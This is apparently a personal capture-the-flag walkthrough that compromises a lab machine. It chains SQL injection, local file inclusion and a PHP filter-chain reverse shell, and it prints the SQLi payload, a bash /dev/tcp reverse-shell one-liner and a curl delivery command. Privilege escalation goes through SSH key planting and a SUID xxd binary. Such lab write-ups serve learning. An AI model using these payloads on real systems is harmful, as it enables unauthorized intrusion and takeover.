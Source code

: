 ```yaml
---
sticker: emoji//1f9c0
---
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927154349.png)

Let's visit it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160128.png)


![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161025.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927161803.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927162104.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927162740.png)
Now, i got root authorized key access:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927162817.png)
just like that, machine is done:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020240927162856.png)


